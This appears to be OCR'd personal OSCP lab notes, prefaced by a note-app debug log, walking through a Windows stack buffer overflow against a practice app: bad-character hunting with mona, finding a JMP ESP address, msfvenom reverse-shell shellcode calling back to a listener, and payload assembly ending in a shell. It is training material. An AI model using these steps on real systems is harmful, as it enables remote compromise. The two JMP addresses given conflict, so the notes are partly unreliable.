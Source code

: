 [debug] Node name: Netcat Result
[2021-01-18 09:21:21.225] [   ] [debug] Node name: Socket Script
[2021-01-18 09:25:25.865] [   ] [debug] Node name: notes
[2021-01-18 09:25:33.855] [   ] [debug] Node name: Exploit
[2021-01-18 09:34:17.571] [   ] [debug] Node name: notes
[2021-01-18 09:34:26.168] [   ] [debug] Node name: Pattern Create
[2021-01-18 09:37:32.642] [   ] [debug] Node name: notes
[2021-01-18 09:37:41.096] [   ] [debug] Node name: Offsect Value
[2021-01-18 09:48:11.517] [   ] [debug] Node name: notes
[2021-01-18 09:48:20.925] [   ] [debug] Node name: Control Eip
[2021-01-18 10:05:55.885] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:20:28.554] [   ] [debug] Node name: Control Eip
[2021-01-18 12:21:11.904] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:21:20.524] [   ] [debug] Node name: Control Eip
[2021-01-18 12:21:40.577] [   ] [debug] Node name: Offsect Value
[2021-01-18 12:21:48.383] [   ] [debug] Node name: Control Eip
[2021-01-18 12:21:57.093] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:30:02.143] [   ] [debug] Node name: Control Eip
[2021-01-18 12:31:17.195] [   ] [debug] Node name: Verify Offset EIP ESP
[2021-01-18 12:39:55.592] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:40:03.103] [gtk] [critical] gtk_tree_model_get_iter: assertion 'path->depth > 0' failed
[2021-01-18 12:40:03.104] [   ] [debug] Node name: Verify Offset EIP ESP
[2021-01-18 12:40:03.107] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:40:10.718] [   ] [debug] Node name: Findind Badchar
[2021-01-18 12:40:12.529] [   ] [debug] Node name: Verify Offset EIP ESP
[2021-01-18 12:40:14.695] [   ] [debug] Node name: Findind Badchar

As we got four bad chars let's use mona to add in arrey using -b bytearrey 'badchar'
our_badchar=\x00\x07\x2e\xa0

and send the payload again and verify the badchar...if on popup saying undefind that means there is no bad char...

Now to get the jump eip we need to check the !mona modules

if there is all false in popup window that means that module of the app is vulnrable...

now find the jump esp ....

 !mona find -s "\xff\xe4" -m somvuln.dll 

this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'
in this case...
#jmp 0x625011af
to little indian form

jmp="\xaf\x11\x50\x62"



creating the shellcode.. 
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.5.14 LPORT=1234 -b '\x00\x07\x2e\xa0' -f c

and copyt the output and paste in our program as shellcode value..

now payload is.....


'A'*offsetvalue
jmp="\xaf\x11\x50\x62"
nopt='\x90'*10
shellcode=msfoutput

start the listener and send the payload...

got the shell 

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin





